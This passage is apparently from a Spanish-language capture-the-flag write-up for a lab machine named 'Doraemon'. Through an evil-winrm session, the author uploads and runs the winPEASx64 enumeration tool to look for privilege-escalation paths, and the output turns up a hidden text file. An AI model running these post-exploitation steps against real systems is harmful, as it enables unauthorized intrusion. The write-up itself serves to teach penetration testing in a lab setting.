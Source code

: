 ```batch
```
No veo algún grupo del que nos podamos aprovechar.

Vamos a subir **winPEASx64** para ver que puede encontrar.

Puedes descargarlo aquí:
* <a href="https://github.com/peass-ng/PEASS-ng/tree/master" target="_blank">Repositorio de peass-ng: PEASS-ng</a>

Súbelo a la sesión de **evil-winrm** (recuerda que puedes abrir la sesión donde tengas el **winPEASx64**, si no tendrás que especificar la ruta completa de donde está):
```batch
*Evil-WinRM* PS C:\Users\Doraemon\Documents> cd C:\
*Evil-WinRM* PS C:\> mkdir Temp
*Evil-WinRM* PS C:\> cd Temp
*Evil-WinRM* PS C:\Temp> upload winPEASx64.exe
                                        
Info: Uploading /home/berserkwings/Escritorio/TheHackersLabs/Doraemon/content/winPEASx64.exe to C:\Temp\winPEASx64.exe
                                        
Data: 13521576 bytes of 13521576 bytes copied
                                        
Info: Upload successful!
```

Ejecútalo:
```batch
*Evil-WinRM* PS C:\Temp> ./winPEASx64.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
....
....
....
```

Revisando casi al final, podemos ver que se encontró un archivo oculto:
```batch
ÉÍÍÍÍÍÍÍÍÍÍ¹ Searching hidden files or folders in C:\Users home (can be slow)

     C:\Users\Default User
     C:\Users\Default
     C:\Users\All Users
     C:\Users\Default
     C:\Users\Doraemon\Links\Carta de amor a Shizuka.txt
     C:\Users\All Users
     C:\Users\All Users\ntuser.pol
```
